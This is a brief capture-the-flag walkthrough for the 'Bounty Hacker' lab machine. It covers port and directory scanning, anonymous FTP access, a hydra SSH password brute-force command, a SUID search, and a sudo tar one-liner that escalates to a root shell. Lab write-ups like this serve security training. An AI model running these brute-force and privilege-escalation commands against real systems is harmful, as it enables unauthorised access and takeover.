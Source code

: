 # Bounty Hacker

## 1. nmap scan
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

## 2. gobuster scan
/images

## 3. ftp anonymous login
We find some files with the name "lin" and a list of passwords "locks.txt"

## 4. brute force with hydra
> hydra -l lin -P /usr/share/wordlists/rockyou.txt <IP> ssh -t 4
  --> now we got the password and we can login into ssh
> ssh lin@<IP>

## 5. Privesc
> find / -perm  -u=s -type f 2>/dev/null
We find "/usr/bin/sudo", lets type:
> sudo -l
and we find "/bin/tar", so we search on https://gtfobins.github.io/ for tar and get following line.
> sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh


